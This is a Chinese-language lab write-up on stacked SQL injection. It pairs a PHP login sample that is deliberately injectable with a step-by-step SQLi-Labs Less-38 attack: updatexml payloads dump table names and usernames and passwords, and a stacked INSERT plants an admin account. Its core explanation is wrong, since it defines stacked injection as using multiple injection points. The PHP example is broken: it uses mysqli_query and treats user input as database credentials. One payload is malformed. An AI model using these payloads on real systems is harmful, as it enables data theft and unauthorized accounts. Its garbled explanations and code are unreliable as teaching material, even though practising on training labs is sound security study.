 # 一、堆叠注入概述
1. SQL堆叠注入是一种利用多个注入点的技术，可以在一个注入点中注入SQL代码，然后在另一个注入点中执行该代码。
2. 在PHP中，堆叠注入通常发生在使用mysqli函数库时，因为mysqli函数库允许在SQL查询中使用多个语句。攻击者可以在其中一个输入中注入SQL代码，然后在另一个输入中执行该代码。
# 二、代码示例
1. 使用PHP编写一个存在堆叠注入的示例
```php
// 这是一个存在堆叠注入的PHP代码示例
// 堆叠注入是一种利用多个注入点的技术，可以在一个注入点中注入SQL代码，然后在另一个注入点中执行该代码
// 在此示例中，我们使用两个输入字段来模拟两个注入点
// 获取用户输入
$username = $_POST['username'];
$password = $_POST['password'];
$servername = 'localhost';
$dbname = 'test';
//连接数据库
$conn = mysqli_connect($servername, $username, $password, $dbname);
// 构造SQL查询语句
$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
// 执行SQL查询
$result = mysqli_query($conn,$sql);
// 处理查询结果
if ($result) {
	// 查询成功
	while ($row = mysqli_fetch_assoc($result)) {
		// 处理每一行数据
	}
} else {
	// 查询失败
	echo "查询失败";
}
// 关闭数据库连接
mysqli_close($conn);
```
2. 上述代码使用了两个用户输入来构造SQL查询语句，攻击者可以在其中一个输入中注入SQL代码，然后在另一个输入中执行该代码。
# 三、SQLi-Labs Less38靶场示例
1. 测试报错及字段
	- 单引号报错，order by 3回显正常
	![1.png](./img/SQLi/stack/1.png)
	- order by 4报错，确定字段为4
	![2.png](./img/SQLi/stack/2.png)
2. 直接拼接select报错
	![3.png](./img/SQLi/stack/3.png)
3. 尝试堆叠注入，成功回显数据库版本与数据库名，如下，数据库名为security
```SQL
http://localhost:8081/Less-38/?id=1' and updatexml(1,concat(0x7e,version(),0x7e,database()),1) --+
```
![4.png](./img/SQLi/stack/4.png)
4. 获取数据库security中的表名，如下，security库中有emails、referers、uagents、users四个表
```SQL
?id=1' and updatexml(1,concat(0x7e,(select (group_concat(table_name)) from information_schema.tables where table_schema=database()),0x7e),1) --+
```
![5.png](./img/SQLi/stack/5.png)
5. 获取users表中字段名，如下，有id、username、password三个字段
```SQL
?id=1' and updatexml(1,concat(0x7e,(select (group_concat(column_name)) from information_schema.columns where table_name='users',0x7e),1) --+
```
![6.png](./img/SQLi/stack/6.png)
6. 获取字段username、password的值，如下，成功获取到用户名和密码
```SQL
?id=1' and updatexml(1,concat(0x7e,(select (group_concat(username,0x3a,password,0x7e)) from users),0x7e),1) --+
```
![7.png](./img/SQLi/stack/7.png)
7. 我们还可以尝试写入一个用户名和密码
```SQL
?id=1';insert into users value(66,'admin','123456') --+
```
![8.png](./img/SQLi/stack/8.png)
8. 访问id=66，发现admin/123456被成功写入数据库
![9.png](./img/SQLi/stack/9.png)